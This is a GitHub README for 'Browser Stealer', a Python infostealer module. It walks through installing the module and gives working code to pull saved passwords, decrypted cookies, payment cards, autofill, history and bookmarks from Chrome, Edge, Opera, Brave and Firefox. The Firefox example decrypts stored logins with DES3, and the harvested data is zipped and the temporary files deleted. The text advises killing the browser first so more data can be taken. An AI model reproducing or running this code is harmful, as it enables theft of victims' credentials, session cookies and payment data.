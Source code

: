 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v2.0.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer-<version>-py3-none-any.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer-<version>-py3-none-any.whl` and run following command:
- *IMPORTANT* - Do not rename the downloaded file, that might prevent you from installing the module
  
```
pip install browser_stealer-<version>-py3-none-any.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

- **RECOMMENDED**: before stealing anything its recommended to kill the targeted browser because some data wont be stolen if browser is running

##### Chromium

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer, os


def MyBrowser():
    browser_stealer.fetch_passwords(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Login Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.decrypt_fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"))
    browser_stealer.fetch_history(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_downloads(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_bookmarks(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Bookmarks"))
    browser_stealer.fetch_payment(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_autofill(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"))

    browser_stealer.Utils().zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.Utils().delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

##### Firefox

```py
import os
from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad
import browser_stealer


def firefox():
    utils = browser_stealer.Utils()
    profiles = browser_stealer.FirefoxUtils(os.path.join(os.environ["USERPROFILE"], r"AppData\Roaming\Mozilla\Firefox\profiles.ini")).fetch_profiles()


    for profile in profiles[0]:
        profile_path = os.path.join(os.environ["USERPROFILE"], r"AppData\Roaming\Mozilla\Firefox", profile[2])
        path = profile_path if profile[1] else profile[2]

        b_st = browser_stealer.Firefox(path)

        key = b_st.get_key()
        algo = b_st.get_algo()
        
        ff_data = browser_stealer.FirefoxData(path)

        login_data = ff_data.fetch_passwords()
        cookies = ff_data.fetch_cookies()
        history = ff_data.fetch_history()
        autofill = ff_data.fetch_autofill()
        bookmarks = ff_data.fetch_bookmarks()
        downloads = ff_data.fetch_downloads()
        
        for cookie in cookies:
            #name, value, host, path, isSecure, isHttpOnly, expiry, lastAccessed, creationTime
            txt = f"\nName: {cookie[0]}\nValue: {cookie[1]}\nHost: {cookie[2]}\nPath: {cookie[3]}\nIs Secure: {cookie[4]}\nIs http only: {cookie[5]}\nExpiry: {cookie[6]}\nLast accessed: {cookie[7]}\nCreation time: {cookie[8]}\n"
            utils.store_data(file="cookies.txt", data=txt)

        for visited in history:
            #url, title, visit_count, last_visit_date
            txt = f"\nURL: {visited[0]}\nTitle: {visited[1]}\nVisit count: {visited[2]}\nLast visit: {visited[3]}\n"
            utils.store_data(file="history.txt", data=txt)

        for instance in autofill:
            #fieldname, value, timesUsed, firstUsed, lastUsed
            txt = f"\nFieldname: {instance[0]}\nValue: {instance[1]}\nTimes used: {instance[2]}\nFirst used: {instance[3]}\nLast used: {instance[4]}\n"
            utils.store_data(file="autofill.txt", data=txt)

        for bookmark in bookmarks:
            #title, dateAdded, lastModified
            txt = f"\nTitle: {bookmark[0]}\nDate Added: {bookmark[1]}\nLast modified: {bookmark[2]}\n"
            utils.store_data(file="bookmarks.txt", data=txt)

        for download in downloads:
            #path, metadata, dateAdded
            txt = f"\nPath: {download[0]}\nMetadata: {download[1]}\nDate downloaded: {download[2]}\n"
            utils.store_data(file="downloads.txt", data=txt)

        login_data = ff_data.fetch_passwords()
    

        if algo != "1.2.840.113549.1.12.5.1.3" and algo != "1.2.840.113549.1.5.13":
            return
        
        for login in login_data:
            data = ""

            data += f"\nURL: {login[2]}"

            iv = login[0][1]
            cipher_text = login[0][2] 
            username = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(cipher_text), 8).decode()
            data += f"\nUsername: {username}"

            iv = login[1][1]
            cipher_text = login[1][2] 
            password = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(cipher_text), 8).decode()
            data += f"\nPassword: {password}"

            data += f"\nTimes Used: {login[5]}"

            utils.store_data(file=f"passwords.txt", data=f"{data}\n")


        utils.store_data(file=f"passwords.txt", data=f"\nKEY: {key}\nALGO: {algo}\n")
        files = ["passwords.txt", "cookies.txt", "history.txt", "bookmarks.txt", "autofill.txt", "downloads.txt"]
        utils.zip("Firefox.zip", files)
        utils.delete_files(files)

firefox()
```

Here we have an function that you could modify for your own firefox fork...

```py
import browser_stealer

browser_stealer.firefox_steal()
```

This is how to achieve the same thing but in only two lines...

## [Video Tutorial](https://youtube.com) (comming soon)

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
